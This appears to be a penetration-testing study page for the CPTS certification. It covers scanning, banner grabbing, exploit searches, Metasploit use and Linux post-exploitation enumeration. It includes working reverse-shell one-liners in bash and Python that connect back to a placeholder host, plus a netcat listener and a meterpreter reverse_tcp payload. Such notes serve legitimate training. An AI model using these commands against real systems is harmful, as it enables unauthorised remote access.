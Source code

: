 ```yaml
---
title: General Vulnerability Assessment & Exploitation
parent: CPTS
grand_parent: Categories
nav_order: 3
has_children: false
layout: default
---
```


# General Vulnerability Assessment & Exploitation

## Overview

This section covers service-agnostic vulnerability identification and exploitation techniques that are foundational for all environments, including port-based services, OS-level exploits, and general infrastructure misconfigurations.

---

## General Vulnerability Assessment

### Service Discovery (Baseline)

```bash
nmap -sC -sV -O -p- <target>
```
- `-sC`: Default scripts
- `-sV`: Version detection
- `-O`: OS fingerprinting
- `-p-`: Scan all 65535 ports

### Banner Grabbing (Manual)

```bash
nc <target> 21
nc <target> 80
```

```bash
curl -I http://<target>
```

### Exploit Database Search

```bash
searchsploit <service or version>
```

Use: [https://exploit-db.com](https://exploit-db.com)

### Nessus / OpenVAS (if permitted)
- Run authenticated + unauthenticated scans
- Prioritize based on CVSS score

### Vulnerability Prioritization Table

| Factor       | Description                              |
|--------------|-------------------------------------------|
| CVSS Score   | Severity level                            |
| Exploitability | Ease of use and success probability    |
| Risk         | System damage potential                   |
| Business Impact | Value of data or system targeted       |

---

## General Exploitation Techniques

### Reverse Shell Techniques

#### Bash
```bash
bash -i >& /dev/tcp/<your_ip>/4444 0>&1
```

#### Python
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("<your_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

#### Netcat Listener
```bash
nc -lvnp 4444
```

### Metasploit Framework

#### Find Exploit
```bash
search <service/version>
```

#### Use Exploit
```bash
use exploit/multi/some_module
set RHOSTS <target>
set LHOST <your_ip>
set PAYLOAD linux/x86/meterpreter/reverse_tcp
run
```

---

## Post-Exploitation (General)

### Local Enumeration (Linux)
```bash
uname -a
id
cat /etc/*-release
ls -la /home/
```

### Check for SUID binaries
```bash
find / -perm -u=s -type f 2>/dev/null
```

### Kernel Exploits
Search using:
```bash
uname -r
searchsploit <kernel version>
```

Use compiled exploits or `linux-exploit-suggester.sh`

---

## Notes
- Always follow Rules of Engagement
- Document findings with screenshots or terminal logs
- Prioritize low-risk exploits for exam-style environments
- Clean up if required (reverse shells, temp files)
